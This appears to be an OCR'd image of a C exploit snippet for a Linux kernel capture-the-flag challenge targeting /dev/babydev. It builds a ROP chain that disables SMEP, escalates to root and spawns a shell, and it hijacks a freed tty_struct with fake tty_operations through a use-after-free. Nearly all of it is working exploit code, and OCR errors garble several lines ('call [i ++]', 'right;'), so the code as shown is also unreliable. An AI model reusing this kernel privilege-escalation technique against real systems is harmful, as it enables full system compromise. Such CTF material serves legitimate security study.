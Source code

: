 ```C
    size_t rop[32] = {0};

call [i ++] = 0xffffffff810d238d; // pop rdi; right;
call [i ++] = 0x6f0;
call [i ++] = 0xffffffff81004d80; // mov cr4, rdi; pop rbp; right;
call [i ++] = 0;
    rop[i++] = (size_t)get_root;

call [i ++] = 0xffffffff81063694; // swapgs; pop rbp; right;
call [i ++] = 0;
call [i ++] = 0xffffffff814e35ef; // iretq; right;
    rop[i++] = (size_t)get_shell;

    rop[i++] = user_cs;                /* saved CS */

    rop[i++] = user_rflags;            /* saved EFLAGS */

    rop[i++] = user_sp;

    rop[i++] = user_ss;



	for(int i = 0; i < 30; i++)

	{

		fake_tty_operations[i] = 0xFFFFFFFF8181BFC5; 

	}

    fake_tty_operations[0] = 0xffffffff810635f5;  //pop rax; pop rbp; ret;

    fake_tty_operations[1] = (size_t)rop;

    fake_tty_operations[3] = 0xFFFFFFFF8181BFC5;  // mov rsp,rax ; dec ebx ; ret



    int fd1 = open("/dev/babydev", O_RDWR);

    int fd2 = open("/dev/babydev", O_RDWR);

    ioctl(fd1, 0x10001, 0x2e0);

    close(fd1);



    int fd_tty = open("/dev/ptmx", O_RDWR|O_NOCTTY);

    size_t fake_tty_struct[4] = {0};

    read(fd2, fake_tty_struct, 32);

    fake_tty_struct[3] = (size_t)fake_tty_operations;

    write(fd2,fake_tty_struct, 32);



    char buf[0x8] = {0};

```